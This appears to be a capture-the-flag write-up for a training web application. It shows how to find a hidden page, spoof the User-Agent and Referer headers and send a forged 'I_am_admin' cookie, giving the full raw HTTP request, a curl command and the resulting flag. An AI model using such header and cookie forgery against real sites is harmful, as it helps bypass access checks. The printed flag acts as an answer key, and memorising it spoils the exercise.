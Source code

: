# Exploit
1. Visit the URL: `/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c` 
   (linked at the bottom of the main page).
2. Check the source code of the page to find the following comments:
   - "You must cumming from : https://www.nsa.gov/ to go to the next step"
   - "Let's use this browser : ft_bornToSec. It will help you a lot."
3. These comments suggest modifying the `User-Agent` and `Referer` headers in the HTTP request.

### Steps:
Send an HTTP request with the following headers:

GET /index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1 Host: 192.168.0.30 User-Agent: ft_bornToSec Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8 Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Referer: https://www.nsa.gov/ Connection: keep-alive Cookie: I_am_admin=68934a3e9455fa72420237eb05902327 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0, no-cache Pragma: no-cache

Alternatively, use the following `curl` command:

```bash
curl 'http://x.x.x.x/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \\
-H 'User-Agent: ft_bornToSec' \\
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \\
-H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' \\
--compressed \\
-H 'Referer: https://www.nsa.gov/' \\
-H 'Connection: keep-alive' \\
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \\
-H 'Upgrade-Insecure-Requests: 1' \\
-H 'Cache-Control: max-age=0, no-cache' \\
-H 'Pragma: no-cache' | grep 'The flag is'
The HTTP response will contain the flag: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.
